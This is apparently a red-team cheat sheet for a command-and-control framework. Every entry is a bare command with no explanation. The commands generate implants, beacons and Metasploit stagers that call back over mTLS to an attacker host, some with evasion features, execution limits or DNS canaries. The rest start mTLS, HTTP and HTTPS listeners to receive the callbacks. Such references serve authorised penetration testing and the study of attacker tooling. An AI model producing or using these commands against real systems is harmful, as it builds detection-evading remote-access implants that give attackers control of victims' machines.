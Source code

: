 ## Generate with DNS Canary
#cat/PAYLOAD 
```
generate --mtls <lhost> --canary <canary_domain>
```

## Generate with Execution Limits
#cat/PAYLOAD 
```
generate --mtls <lhost> --limit-hostname <hostname> --limit-username <user> --limit-domainjoined
```

## Generate with Evasion Features
#cat/PAYLOAD 
```
generate --mtls <lhost> --evasion
```

## Generate with Debug Features
#cat/PAYLOAD 
```
generate --mtls <lhost> --debug
```

## Generate Beacon Binary
#cat/PAYLOAD 
```
generate beacon --mtls <lhost>
```

## Generate Stager with Metasploit
#cat/PAYLOAD 
```
generate stager --mtls <lhost>
```

## Start mTLS Listener
#cat/LISTENER 
```
mtls --lhost <lhost> --lport <lport>
```

## Start HTTP Listener
#cat/LISTENER 
```
http --lhost <lhost> --lport <lport>
```

## Start HTTPS Listener
#cat/LISTENER 
```
https --lhost <lhost> --lport <lport>
```
